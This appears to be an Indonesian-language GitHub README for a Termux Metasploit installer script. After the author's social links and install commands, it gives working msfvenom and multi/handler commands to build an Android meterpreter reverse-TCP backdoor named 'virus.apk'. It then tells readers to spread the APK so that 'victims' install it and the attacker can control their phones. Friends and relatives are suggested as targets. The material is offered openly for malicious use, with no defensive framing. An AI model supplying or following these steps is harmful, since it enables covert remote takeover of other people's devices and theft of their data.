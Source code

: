 # MspoitZonaredXXII
By. Mr.XXII
Team : ZONAREDXXII Security Hacker Commander
Follow Me :
Whatsapp Me : https://bit.ly/3yYoNJH
Telegram : https://bit.ly/2VDRZHD
Facebook : https://bit.ly/3AYn8pb
Instagram : https://bit.ly/3hCkH41
Blog : https://bit.ly/3r5n16I
Grup WhatsApp : https://bit.ly/3wJQfct
Youtube : https://bit.ly/3kglnhk
■■■■■■■■■■■■■■■■■■■■■■■■■

INSTALL & KERJA METASPLOIT :
$ pkg update && pkg upgrade
$ pkg install bundler
$ pkg install wget
$ pkg install ruby
$ pkg install git
$ git clone https://github.com/zonaredXXII/MspoitZonaredXXII.git
$ cd MsploitXXII
$ chmod +x MsploitXXII.sh
$ ./MsploitXXII.sh

CARA KERJANYA :
1. Pertama kita akan membuat payload/backdoor atau virus yang kita gunakan untuk dirimkan ke korban agar dapat akses ke HP nya.
Silahkan ketik: 
msfvenom -p android/meterpreter/reverse_tcp LHOST=IP Kamu LPORT=8080 -o /sdcard/virus.apk

2. Cara mengetahui IP address kita ketik : ifconfig

> msfconsole
> use exploit/multi/handler
> set payload android/meterpreter/reverse_tcp
> set lhost IP KAMU
> set lport 8080
> run
setelah itu,kita sebarkan payload yang sudah kita buat diawal tadi,agar diinstal di hp korban,anda juga bisa mencoba pada teman, saudara atau di hp sendiri.

jika ada korban yang menginstal dan menjalankan virus tersebut,kita sudah dapat mengendalikan hp korban dengan perintah-perintah yang terdapat pada Metasploit

Untuk mengetahui perintah yang dapat kita gunakan ketik help.

